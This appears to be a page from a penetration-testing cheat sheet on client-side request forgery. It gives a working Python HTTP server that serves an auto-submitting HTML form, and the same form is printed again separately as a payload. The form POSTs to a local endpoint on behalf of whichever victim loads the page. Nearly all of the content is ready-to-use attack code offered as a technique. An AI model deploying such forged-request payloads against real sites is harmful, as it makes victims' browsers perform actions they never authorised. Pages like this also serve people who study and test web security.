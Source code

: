 ```yaml
---
description: Performing actions on a users behalf
---
```


# Client Side Request Forgery

## Implementing your own response \(POST/Javascript\)

Convenient method when a post request is required.

> This will only work if the target automatically executes Javascript after it is requested by the victim

**Python HTTP server example**

In this example the attacker server will retrieve a GET request and perform POST request to http://127.0.0.1/post

```text
from http.server import HTTPServer, BaseHTTPRequestHandler


class pyhandler(BaseHTTPRequestHandler):
    def do_GET(self):
        self.send_response(200)
        self.send_header('Content-Type', 'text/html')
        self.end_headers()
        self.wfile.write(bytes("""
        <html>
            <form id="evilform" action="http://127.0.0.1/post" method="post">
                <!--input name="test" value="evil" /-->
            </form>
            <script>
                document.forms["evilform"].submit();
            </script>
        </html>
        """, 'utf-8'))


class pyhttp(object):
    def __init__(self, server_class=HTTPServer, 
                 handler_class=pyhandler):
        self.address = server_address = ('', 80)
        self.httpd = server_class(server_address, handler_class)
        self.httpd.serve_forever()


pyhttp()
```

**Payload**

```text
<html>
    <form id="evilform" action="http://127.0.0.1/post" method="post">
        <!--input name="test" value="evil" /-->
    </form>
    <script>
        document.forms["evilform"].submit();
    </script>
</html>
```

